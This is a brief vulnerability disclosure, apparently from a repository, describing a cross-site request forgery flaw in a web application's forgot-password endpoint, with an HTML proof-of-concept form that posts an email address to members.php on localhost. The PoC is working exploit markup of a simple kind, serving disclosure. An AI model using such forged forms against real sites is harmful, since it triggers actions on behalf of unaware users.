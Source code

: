 # Forgot Password CSRF
Allows to request a password reset through CSRF.

## PoC:
```html
<link href="http://localhost/public/themes/Sand/assets/css/sand.css" rel="stylesheet">

<form action="http://localhost/members.php/cmd/forgotpassword" method="POST" id="LAYER_form" style="padding: 25px;">
    <label for="email">Email</label>
    <input type="text" name="email" id="email" class="form-control">
    <br><br>
    <input type="submit" name="forget" value="Send Email" class="btn btn-default">
</form>
```
